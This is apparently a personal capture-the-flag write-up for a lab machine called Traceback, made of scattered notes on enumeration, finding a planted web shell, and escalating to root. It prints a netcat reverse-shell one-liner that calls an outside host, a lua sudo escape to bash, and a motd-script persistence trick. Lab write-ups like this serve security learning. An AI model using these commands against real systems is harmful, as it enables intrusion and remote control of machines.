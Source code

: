 # <span style="color:#FFFF66">Machine #17 Traceback</span>  


## <span style="color: #FFFF66">Notes During Working on the Machine 🧐🤓   

* Wappalyzer is giving way off results  
<img src="wappalyzer.png"> 
* The fast nmap gave me only `http` and `ssh`.
* The long nmap doesn't want to ever finish.
* If I could tell what technology was used to program the backend maybe this could help with finding the proper shell.
* But still it's not clear to me how to find the shell and what the hell is it's name and what is this weird comment about web shells.
* Also, something interesting is that the comment said "web shells" as a plural and not singular.
* It occured to me that Traceback is a kind of error. It seems like it's an error in Python.
* One of the allowed methods is POST this has to give me access to something.
* I also found a code that uses POST requests to use a webshell.
* I found this json object that seems to be sent with the request.
 
  ```json
  {
    "canary":"m069z1wh",
    "enabled":false,
    "postmessage":false,
    "spoofOrigin":false,
    "injectCanary":false,
    "filterStack":false,
    "fireEvents":false,
    "guessStrings":false,
    "preventRedirection":false,
    "injectIntoSources":false,
    "disabledSources":[]
    }
  ```  

* From my research the Canary thing might be a honey pot, which leads me to think that the website isn't really compromised and that the website's owners have put this message to lure hackers into thinking that the website is owned.  

* The Canary thing turned out to be something from burpsuite shit when I opened firefox there was no trace of it. I've been chasing ghosts all along.  
* Maybe I can look more into uploading files.

* The latest stuff I found is an image. I thought maybe the web shell could be hidden in the image but the image seems to be intact and there's nothing wrong with it. It seems like it's just a normal jpg.
* I even ran it on `exiftool` and didn't get anything.  
* I found something `/smevk.php`. Instead of bruteforcing with `gobuster1 using the usual wordlists I used a list called "backdoor_list.txt" which is specifically to search for backdoors in web apps and I found one DAMN RIGHT!
* The password is freaking admin:admin :o

  ```cmd
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
  ```  

* I got webadmin through the other hacker's webshell and then I got sysadmin through a bind shell using the sudo lua code I used the following code  

* I just have getting the root left.
  ```lua
  #\!/usr/local/bin/lua
  os.execute("/bin/bash");
  ```

  ```
  /etc/update-motd.d/50-motd-news
  /etc/update-motd.d/10-help-text
  /etc/update-motd.d/91-release-upgrade
  /etc/update-motd.d/00-header
  /etc/update-motd.d/80-esm
  ```  

  ```cmd
  ssh -i id_ed25519 sysadmin@10.10.14.8
  ```

* I finally copied a rev shell into the "header" file because it was the only file that had proof that it's code is being executed.
<br/><br/>



## <span style="color: #FFFF66">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color: #FFFF66">Where I Got Stuck?😡😧  

* I kept using the wrong wordlist to bruteforce the directories using `gobuster`.
* Turns out there is a wordlist in SecLists exactly to look for web shells and I found some login page hidden by the hacker.

<br/><br/>



## <span style="color: #FFFF66">What Did I learn from this Machine?👀  

* General info on Webshells  
  <blockquote>
  Threat actors first penetrate a system or network and then install a web shell. From this point onwards, they use it as a permanent backdoor into the targeted web applications and any connected systems.
  </blockquote>

<br/><br/>



## <span style="color: #FFFF66">Writeups ✍🏽📓   


<br/><br/>




<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->